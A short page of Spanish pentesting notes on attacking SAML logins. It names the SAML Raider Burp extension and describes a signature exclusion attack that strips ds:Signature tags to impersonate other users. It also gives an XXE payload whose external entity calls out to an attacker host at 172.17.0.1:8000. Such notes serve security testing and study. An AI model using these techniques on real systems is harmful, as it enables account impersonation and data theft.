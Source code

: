 ## Atomático

SAML Raider en burp suite

---

## Manual
### Signature exclusion attack

Si un servidor está muy mal configurado, podríamos intentar borrar todas las signatures dentro del XML.

Estas signatures se encuentran en las tags **"ds:Signature"**.

Puede haber muchas signatures en un mismo xml.

Una vez eliminadas estas firmas podemos empezar a cambiar nuestros datos para imperonar a otros usuarios.

### XXE

Al ser un XML y trabajar con tags, podemos inyectar XXE. Ej:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://172.17.0.1:8000"> %xxe; ]>
    <samlp:Response>
    	[...]
    </samlp:Response>

